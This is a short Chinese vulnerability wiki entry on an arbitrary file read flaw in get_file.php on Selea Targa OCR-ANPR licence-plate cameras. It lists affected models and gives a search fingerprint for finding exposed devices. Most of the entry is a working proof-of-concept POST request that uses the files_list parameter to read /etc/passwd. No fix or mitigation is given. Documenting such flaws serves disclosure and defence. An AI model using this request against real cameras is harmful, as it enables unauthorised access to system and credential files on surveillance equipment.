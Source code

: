 # Selea OCR-ANPR摄像机 get_file.php 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 get_file.php存在 任意文件读取漏洞，通过构造特殊请求获取服务器文件

## 漏洞影响

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera iZero</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 512</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 504</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa Semplice</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 805</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 750</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"selea_httpd"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/sel-1.png)



发送如下请求包



```plain
POST /cgi-bin/get_file.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: lang=en; PHPSESSID=bvib0lq6lahlhbjnfv91k13ou0

name=test&files_list=/etc/passwd
```



![img](/assets/PeiQi-Wiki/img/sel-4.png)